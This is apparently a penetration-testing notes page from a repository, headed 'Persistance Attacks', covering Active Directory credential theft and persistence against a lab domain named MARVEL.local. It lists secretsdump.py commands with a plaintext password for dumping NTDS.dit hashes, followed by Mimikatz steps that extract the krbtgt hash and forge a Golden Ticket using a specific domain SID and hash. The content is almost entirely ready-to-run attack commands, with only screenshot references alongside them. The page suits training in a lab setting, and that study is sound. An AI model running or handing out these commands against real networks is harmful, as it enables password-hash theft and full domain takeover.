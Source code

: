 # Persistance Attacks

## Dumping NTDS.dit

    • secretsdump.py MARVEL.local/hawkeye:'Password123!'@192.168.146.149

    Dump only ntds.dit
    
    • secretsdump.py MARVEL.local/hawkeye:'Password123!'@192.168.146.149 -just-dc-ntlm

![alt text](Assests/ntds_1.png)


## Golden Ticket

Requirements
    NTLM of krbtgt
    SID of the domain
    
Mimikatz.exe
Priviledge::debug
Lsadump::lsa /inject /name:krbtgt

kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-3384766056-2126254730-1791162011 /krbtgt:94ce154de7affd7dd10874a2f50ce5af /id:500 /ptt

![alt text](Assests/mimi_1.png)
![alt text](Assests/mimi_2.png)
![alt text](Assests/mimi_3.png)
![alt text](Assests/mimi_4.png)
![alt text](Assests/mimi_5.png)
![alt text](Assests/mimi_6.png)
![alt text](Assests/mimi_7.png)



